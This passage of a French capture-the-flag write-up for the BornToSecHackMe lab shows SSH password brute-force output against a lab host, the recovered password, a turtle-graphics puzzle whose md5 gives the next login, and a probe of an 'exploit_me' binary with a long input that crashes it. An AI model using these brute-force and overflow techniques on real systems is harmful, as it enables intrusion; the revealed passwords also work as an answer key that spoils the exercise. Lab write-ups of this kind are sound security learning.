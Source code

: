 ```
Testing password : Publicspeakingisveryeasy.126241207201b2149opekmq426351
[x] Connecting to 192.168.56.101 on port 22
[-] Connecting to 192.168.56.101 on port 22: Failed
Testing password : Publicspeakingisveryeasy.126241207201b2149opekmq426135
[x] Connecting to 192.168.56.101 on port 22
[+] Connecting to 192.168.56.101 on port 22: Done
[*] thor@192.168.56.101:
    Distro    Ubuntu 12.04
    OS:       linux
    Arch:     i386
    Version:  3.2.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[...]
```

Le bon mot de passe est:
```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

### Turtle

Une fois connecter sur l'user thor, on peux voir un ReadME et un fichier turtle.
Le ReadMe nous donne le nom du prochain utilisateur, le turtle des déplacements.
Après une recherche sur internet, on peux trouver des ressources intéressantes:
https://docs.python.org/fr/3/library/turtle.html


Pour solutioné le problème, nous allons utilisé un script python:
```
$ pip install turtle --user
$ sudo apt-get install python-tk
$ python scripts/decode_turtle.py
```
Nous pouvons décodé le motr "SLASH".
Le ReadMe nous parle de digest, nous allons faire un hash md5

```
$ echo -n "SLASH" |md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
```
Nous sommes connecté a Zaz.

### Buffer overflow

Une fois connecté a Zaz, on trouve un binaire "exploit_me". On va tester la présence possible d'un buffer overflow

```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "A" * 200')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)

```
Le code est sujet a un BOF ?.
